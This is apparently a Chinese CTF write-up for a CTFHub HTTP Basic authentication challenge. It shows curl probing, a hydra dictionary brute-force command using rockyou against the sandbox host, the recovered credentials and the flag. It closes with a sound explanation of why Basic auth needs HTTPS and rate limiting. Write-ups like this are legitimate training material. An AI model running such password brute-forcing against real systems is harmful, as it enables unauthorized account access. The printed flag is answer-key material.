

# WP：基础认证

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → 基础认证
> **任务**：按题目提示完成 HTTP Basic 认证，拿到 flag。
> **提示**：观察 `401 Unauthorized` 响应和 `WWW-Authenticate: Basic` 响应头。Basic 认证把 `用户名:密码` 做 Base64 编码后放在 `Authorization` 请求头里，Base64 不是加密。
> **截图要求**：能看到 `Authorization: Basic ...` 请求头，以及认证成功后的 flag 或页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-39e581af7d7be174.sandbox.ctfhub.com:10800/ |
| Flag | ctfhub{be36a59dc3e2f6cd1c1b181b} |

## 解题过程

进入题目后，根路径 `/` 其实是正常打开的，页面只有一个标题 `CTFHub 基础认证` 和一行 `Here is your flag: click`，其中 `click` 指向 `/flag.html`。真正的认证保护加在 `/flag.html` 上——点这个链接时，浏览器立刻弹出一个**系统级**的登录框，而不是网页里画的表单，这说明拦我的是 HTTP 层的基础认证，不是应用自己写的登录页。

点取消之后，我用 `curl -i` 单独请求受保护的那个文件，看到了认证的全部线索：

```
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="Do u know admin ?"
```

浏览器就是读到 `WWW-Authenticate` 这一行才弹框的；而 `realm` 写的是 `Do u know admin ?`，等于把用户名提示直接放在响应头里——用户名是 `admin`，密码要靠自己猜。

于是我在 Kali 终端里先手试了二十来个常见弱口令：`curl -s -o /dev/null -w '%{http_code}' -u 'admin:候选密码' '靶场地址/flag.html'`，只关心状态码从 401 变成 200 的那一个。`admin`、`123456`、`password`、`letmein`、`admin123` 等一整套试下来全是 401，手试效率太低。

换成 hydra 用字典跑，一次把范围拉大：

```bash
gunzip -c /usr/share/wordlists/rockyou.txt.gz | head -3000 > /tmp/pw.txt
hydra -l admin -P /tmp/pw.txt -s 10800 -f -t 4 challenge-39e581af7d7be174.sandbox.ctfhub.com http-get /flag.html
```

字典前几千条里就命中了：

```
[10800][http-get] host: challenge-39e581af7d7be174.sandbox.ctfhub.com
   login: admin   password: daniel
```

用 `admin:daniel` 再请求一次，状态码变成 200，响应体里就是 flag。我又用 `echo -n 'admin:daniel' | base64` 验证了一遍：输出 `YWRtaW46ZGFuaWVs`，和 `Authorization: Basic ...` 后面的值完全一致，说明 Basic 认证确实只是把"用户名:密码"编码了一遍，没有任何加密。

中间还有个细节值得记：有一次凭据多打了一个字符，服务端照样返回 401。把 `Authorization` 那串 Base64 解回明文就能立刻看出多了一个字母——这也反过来证明 Base64 是可逆的明文编码，凭据错一个字符都藏不住。

## 关键请求/响应

```http
--- 未认证时（受保护的是 /flag.html，根路径不用认证） ---

GET /flag.html HTTP/1.1
Host: challenge-39e581af7d7be174.sandbox.ctfhub.com:10800
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:115.0) Gecko/20100101 Firefox/115.0

HTTP/1.1 401 Unauthorized
Content-Type: text/html; charset=utf-8
Content-Length: 179
WWW-Authenticate: Basic realm="Do u know admin ?"

<html>
<head><title>401 Authorization Required</title></head>
<body>
<center><h1>401 Authorization Required</h1></center>
<hr><center>nginx/1.16.1</center>
</body>
</html>

--- 认证成功 ---

GET /flag.html HTTP/1.1
Host: challenge-39e581af7d7be174.sandbox.ctfhub.com:10800
Authorization: Basic YWRtaW46ZGFuaWVs
User-Agent: curl/8.20.0

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 33

ctfhub{be36a59dc3e2f6cd1c1b181b}

--- 验证 Base64（不是加密） ---

$ echo -n 'admin:daniel' | base64
YWRtaW46ZGFuaWVs

$ echo -n 'admin:daniel' | base64 | base64 -d
admin:daniel

$ curl -i -u 'admin:daniel' 'http://challenge-39e581af7d7be174.sandbox.ctfhub.com:10800/flag.html'
HTTP/1.1 200 OK
ctfhub{be36a59dc3e2f6cd1c1b181b}
```

## 原理与复盘

`Authorization` 是**请求头**，Basic 模式的格式是 `Authorization: Basic base64(用户名:密码)`；服务器拿不到正确凭据时用状态行 `401 Unauthorized` 加上响应头 `WWW-Authenticate: Basic realm="..."` 告诉浏览器"去要账号密码"。

关键在于 Base64 只是编码不是加密：任何人都能把它解回明文，所以 Basic 认证必须跑在 HTTPS 上，否则凭据等于裸奔。它也没有失败次数限制，可以随密码字典无限重试，这正是这题能靠试密码过关的原因。真实系统里要么换掉 Basic 认证，要么至少加限速、加多因素。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
